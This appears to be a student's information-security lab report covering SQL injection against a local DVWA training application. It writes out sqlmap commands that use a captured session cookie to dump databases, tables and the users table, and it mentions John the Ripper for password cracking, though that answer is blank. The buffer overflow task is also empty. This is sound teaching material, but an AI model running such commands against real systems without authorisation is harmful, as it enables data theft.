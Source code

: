 # Lab #1,22110085, Nguyen Truong, INSE330380E_01FIE
# Task 1: Software buffer overflow attack

**Question 1**:



# Task 2: Attack on database of DVWA

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
Set up the database for DVWA and go to the webiste
In SQL Injection Blind Type in UserID then save the URL
<img src="https://github.com/letmehear159/IS-Lab/blob/master/image1.png" alt="screenShot"><br>

Then open the developerMod and copy the Cookie of the website:
<img src="https://github.com/letmehear159/IS-Lab/blob/master/Cookie.png" alt="screenShot"><br>
Open SqlMap and starting getting information about all databases : 
Running injection code :
```sh
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=qq1794g49n0psqntskebagqeou" --schema --batch
```
<img src="https://github.com/letmehear159/IS-Lab/blob/master/inject.png" alt="screenShot"><br>



**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
## Getting all tables:
Running injection code :
```sh
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=qq1794g49n0psqntskebagqeou" -D dvwa --tables
```

## Getting all users information:
Running injection code :
```sh
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=qq1794g49n0psqntskebagqeou" --columns -T users --batch  
```

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
